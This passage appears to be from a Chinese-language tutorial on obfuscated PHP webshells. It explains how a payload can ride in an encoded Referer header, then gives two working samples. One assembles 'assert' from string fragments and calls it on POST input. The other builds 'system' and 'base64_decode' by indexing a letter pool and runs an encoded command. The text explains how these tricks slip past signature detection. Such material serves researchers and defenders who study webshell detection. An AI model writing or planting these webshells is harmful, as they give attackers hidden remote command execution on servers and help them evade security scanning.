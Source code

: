 ```php
    curl_setopt_array($ch, $options);
    echo curl_exec($ch);
?>

```
{% endtab %}

{% tab title="原理分析" %}
[parse\_str()](http://www.php.net/manual/zh/function.parse-str.php)和extract()作用类似，将外部传入的参数注册为本地变量

&#x20;[`reset()`](http://www.w3school.com.cn/php/func\_array\_reset.asp)函数把数组的内部指针指向第一个元素，并返回这个元素的值

[array\_slice(array,offset,length,preserve) ](http://www.w3school.com.cn/php/func\_array\_slice.asp)\
array\_slice() 函数在数组中根据条件取出一段值，并返回。

[implode](http://www.w3school.com.cn/php/func\_string\_implode.asp)

这个webshell通过编码的referer来传递攻击载荷，HTTP通信的头部的任何字段、或者HTTP的数据部分的任何字段都可以当作webshell的payload来传递数据的。
{% endtab %}
{% endtabs %}

### 0x20: 乱序拼接法&#x20;

```php
<?php  
    @$_="s"."s"."e"."r";  
    @$_="a".$_."t";  
    @$_(${"_P"."OS"."T"}[1-2-5]);
?>  
```

注意这里双层${}的作用，里面那个${}是为了让\_POST\[-6]被解析出来的，如果不用这个花括号，则这个"\_POST\[]"就变成一个纯文本了，加上这个${}之后，变量原本的变量特性就表现出来了， 也就能正确传参了

```php
<?php
    $aaaaa="sewtemznypianol";
    $char_system=$aaaaa{0}.$aaaaa{8}.$aaaaa{0}.$aaaaa{3}.$aaaaa{1}.$aaaaa{5};
    //die($char_system);
    $aaaaaa="edoced46esab_n";
    $char_base64_decode=$aaaaaa{11}.$aaaaaa{10}.$aaaaaa{9}.$aaaaaa{8}.$aaaaaa{7}.$aaaaaa{6}.$aaaaaa{12}.$aaaaaa{5}.$aaaaaa{4}.$aaaaaa{3}.
　　　$aaaaaa{2}.$aaaaaa{1}.$aaaaaa{0};
    die($char_base64_decode);
    echo $char_system($char_base64_decode("aXBjb25maWc="));
?>
```

这种webshell的编写思路很巧妙，和"乱序插入"还不是一个做法

1. "乱序插入"是在一段正常的webshell代码中随机插入一些杂乱的无意义的字母，然后再在下面使用`preg_replace`之类的正则替换来去除掉这些"混淆盐字母"，以还原出原有的正常的 webshell代码&#x20;
2. 这种做法是先定义一个"字母池"，这个"字母池"包含有我们需要构造的关键函数的字符。我们通过从这个字母池中选取特定的索引下的字母，以此来构造出我们想要 的"动态函数"(`system、base64_decode`)
